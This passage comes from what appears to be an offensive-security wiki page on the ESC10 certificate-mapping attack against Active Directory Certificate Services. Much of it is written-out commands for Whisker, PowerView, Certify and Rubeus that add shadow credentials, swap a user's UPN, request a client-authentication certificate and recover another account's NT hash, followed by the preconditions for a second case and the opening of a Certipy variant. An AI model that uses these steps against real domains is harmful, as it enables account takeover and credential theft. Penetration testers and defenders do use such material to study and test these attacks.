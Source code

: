 ```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to user3 with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

A certificate permitting client authentication can be requested in a user2 session.

```powershell
Certify.exe request /ca:'domain\ca' /template:"User"
```

The user2's UPN is changed back to something else.

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.

```powershell
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```

:::

#### Case 2

 * `CertificateMappingMethods` is set to `0x4`, meaning no strong mapping is performed and only the UPN will be checked
 * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
 * `GenericWrite` right against any account A to compromise any account B without a UPN already set (machine accounts or buit-in Administrator account for example)

> [!WARNING]
> At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `CertificateMappingMethods` value. It is worth to try the attack hopping the key is misconfigured.

::: tabs

=== UNIX-like

From UNIX-like systems, [Certipy](https://github.com/ly4k/Certipy) (Python) can be used to enumerate for, and conduct, the ESC10 scenario. 

In this scenario, user1 has `GenericWrite` against user2 and want to compromise the domain controller DC$@domain.local.

First, the user2's hash is needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example.
